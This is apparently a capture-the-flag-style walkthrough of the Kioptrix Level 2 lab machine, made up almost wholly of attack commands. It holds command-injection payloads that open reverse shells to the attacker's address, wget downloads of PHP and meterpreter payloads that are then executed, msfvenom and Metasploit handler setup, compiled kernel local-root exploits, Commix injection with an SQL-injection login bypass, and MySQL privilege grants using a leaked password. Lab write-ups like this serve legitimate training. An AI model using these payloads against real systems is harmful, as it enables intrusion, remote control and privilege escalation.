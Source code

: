 
### Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.50.6  |
|                  |         ------------------
|                  |         ------------------
|   192.168.50.1    ---------|     Victim     |
|                  |         |  192.168.50.3  |
--------------------         ------------------
```
Attacker
```
nc -lvp 5678
```
Victim
```
; /usr/local/bin/nc 192.168.50.6 5678 -e /bin/sh
OR
; bash -i >& /dev/tcp/192.168.50.6/5678 0>&1
```
```
cat /etc/redhat-release
CentOS release 4.5 (Final)

uname -a
Linux kioptrix.level2 2.6.9-55.EL

uname -mrs
Linux 2.6.9-55.EL i686
```
```
# searchsploit centos
# searchsploit 2.6.9
# searchsploit kernel 2.6 linux local | grep "CentOS\ 4"
```
### Method #1
```
ls /usr/share/webshells/
ls /usr/share/webshells/php/

cp /usr/share/webshells/php/php-reverse-shell.php ~

cat php-reverse-shell.php | grep "CHANGE THIS"
```
```
sed -i "s#$ip = '127.0.0.1';#$ip = '192.168.50.6';#" php-reverse-shell.php
sed -i "s#$port = 1234;#$port = 5678;#" php-reverse-shell.php

OR

sed -i "s#$ip = '127.0.0.1';  // CHANGE THIS#$ip = '192.168.50.6';#" php-reverse-shell.php
sed -i "s#$port = 1234;       // CHANGE THIS#$port = 5678;#" php-reverse-shell.php
```
```
cat php-reverse-shell.php | grep -e ^\$ip -e ^\$port

$ip = '192.168.50.6';  // CHANGE THIS
$port = 5678;       // CHANGE THIS
```

Attacker
```
python -m SimpleHTTPServer
```
Victim
```
127.0.0.1; wget -O /tmp/php-reverse-shell.php http://192.168.50.6:8000/php-reverse-shell.php
```
Attacker
```
nc -lnvp 5678
```
Victim
```
127.0.0.1; php /tmp/php-reverse-shell.php

uname -a && whoami
```
--------------------

#### Privilege Escalation
```
cat /etc/redhat-release
CentOS release 4.5 (Final)

uname -a
Linux kioptrix.level2 2.6.9-55.EL
```
```
# searchsploit kernel 2.6 linux local | grep "CentOS\ 4"
```

Attacker
```
cp /usr/share/exploitdb/exploits/linux/local/9545.c ~
OR
cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c ~
```
Attacker
```
python -m SimpleHTTPServer
```
Victim
```
127.0.0.1; wget -O /tmp/php-reverse-shell.php http://192.168.50.6:8000/php-reverse-shell.php
```
Attacker
```
nc -lnvp 5678
```
Victim
```
127.0.0.1; php /tmp/php-reverse-shell.php
```
Victim
```
cd /tmp

wget -O 9545.c http://192.168.50.6:8000/9545.c
OR
wget -O 9542.c http://192.168.50.6:8000/9542.c

gcc 9545.c -o exploit ### OR 9542.c
chmod 755 exploit
./exploit

uname -a && whoami
```
### Method #2

Attacker
```
nc -lvp 5678
```
Victim
```
; /usr/local/bin/nc 192.168.50.6 5678 -e /bin/sh
OR
; bash -i >& /dev/tcp/192.168.50.6/5678 0>&1
```
Attacker
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.6 LPORT=4567 -f elf > shell.elf

cp ~/shell.elf /var/www/html

service apache2 start
```
Attacker
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LPORT 4567
set LHOST 192.168.50.6
run
```
Victim
```
wget -O /tmp/shell.elf http://192.168.50.6/shell.elf

chmod 777 /tmp/shell.elf
/tmp/shell.elf
```

### Method #3

Attacker
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.50.6 LPORT=5555 -f raw > backdoor.php.txt

cp ~/backdoor.php.txt /var/www/html
```
Attacker
```
use multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.50.6
set LPORT 5555
run
```
Victim
```
; cd /tmp && wget -O bd.php 192.168.50.6/backdoor.php.txt && php -f bd.php
```
Attacker
```
sessions -l

sysinfo

shell

uname -a; cat /etc/*-release; id; w
```
-------------------------

### Commix

https://github.com/commixproject/commix

https://github.com/commixproject/commix/wiki/Usage-Examples
```
apt-get install commix

rm -r /usr/share/commix/.output/*

commix --url="http://192.168.50.3/pingit.php" --data="ip=127.0.0.1&submit=submit" --auth-url="http://192.168.50.3/index.php" --auth-data="uname=%27+OR+1+--+&psw=&btnLogin=Login"

commix --url="http://192.168.50.3/pingit.php" --data="ip=127.0.0.1&submit=submit" --auth-url="http://192.168.50.3/index.php" --auth-data="uname=%27+OR+1+--+&psw=&btnLogin=Login" --file-write="/root/shell.php" --file-dest="/tmp/bd_commix.php" --os-cmd="php -f /tmp/bd_commix.php"
```
--------------------------

### MySQL
```
; cat index.php

; mysql -u john -phiroshima -e "USE mysql; SHOW tables;"
; mysql -u john -phiroshima -e "USE mysql; SELECT * FROM user;"
```
```
mysql -h 192.168.50.3 -u root
```
```
nmap 192.168.50.3 -sV -p 3306
```
```
; mysql -u root -phiroshima -e "USE mysql; GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.50.6';"
```
```
nmap 192.168.50.3 -sV -p 3306
```
```
mysql -h 192.168.50.3 -u root

SHOW databases;
USE webapp; SHOW tables;
SELECT * FROM users;
```
```
find / -name ".mysql_history"

cat /root/.mysql_history
```

